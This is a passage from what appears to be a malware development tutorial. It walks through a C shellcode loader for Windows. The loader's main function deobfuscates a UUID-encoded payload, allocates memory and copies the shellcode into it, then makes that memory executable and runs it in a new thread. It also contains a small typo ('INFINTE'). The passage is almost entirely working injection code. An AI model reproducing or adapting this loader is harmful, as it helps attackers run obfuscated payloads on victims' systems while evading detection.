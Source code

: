 In the example below, `WaitForSingleObject` will wait forever for the new thread to finish executing.

```c
HANDLE hThread = CreateThread(NULL, NULL, pShellcodeAddress, NULL, NULL, NULL);
WaitForSingleObject(hThread, INFINTE);

```

### Main Function

The main function uses `UuidDeobfuscation` to deobfuscate the payload, then allocates memory, copies the shellcode to the memory region and executes it.

```c
int main() {

    PBYTE       pDeobfuscatedPayload  = NULL;
    SIZE_T      sDeobfuscatedSize     = NULL;

    printf("[i] Injecting Shellcode The Local Process Of Pid: %d \n", GetCurrentProcessId());
    printf("[#] Press <Enter> To Decrypt ... ");
    getchar();

    printf("[i] Decrypting ...");
    if (!UuidDeobfuscation(UuidArray, NumberOfElements, &pDeobfuscatedPayload, &sDeobfuscatedSize)) {
        return -1;
    }
    printf("[+] DONE !\n");
    printf("[i] Deobfuscated Payload At : 0x%p Of Size : %d \n", pDeobfuscatedPayload, sDeobfuscatedSize);

    printf("[#] Press <Enter> To Allocate ... ");
    getchar();
    PVOID pShellcodeAddress = VirtualAlloc(NULL, sDeobfuscatedSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (pShellcodeAddress == NULL) {
        printf("[!] VirtualAlloc Failed With Error : %d \n", GetLastError());
        return -1;
    }
    printf("[i] Allocated Memory At : 0x%p \n", pShellcodeAddress);

    printf("[#] Press <Enter> To Write Payload ... ");
    getchar();
    memcpy(pShellcodeAddress, pDeobfuscatedPayload, sDeobfuscatedSize);
    memset(pDeobfuscatedPayload, '\0', sDeobfuscatedSize);


    DWORD dwOldProtection = NULL;

    if (!VirtualProtect(pShellcodeAddress, sDeobfuscatedSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
        printf("[!] VirtualProtect Failed With Error : %d \n", GetLastError());
        return -1;
    }

    printf("[#] Press <Enter> To Run ... ");
    getchar();
    if (CreateThread(NULL, NULL, pShellcodeAddress, NULL, NULL, NULL) == NULL) {
        printf("[!] CreateThread Failed With Error : %d \n", GetLastError());
        return -1;
    }

    HeapFree(GetProcessHeap(), 0, pDeobfuscatedPayload);
```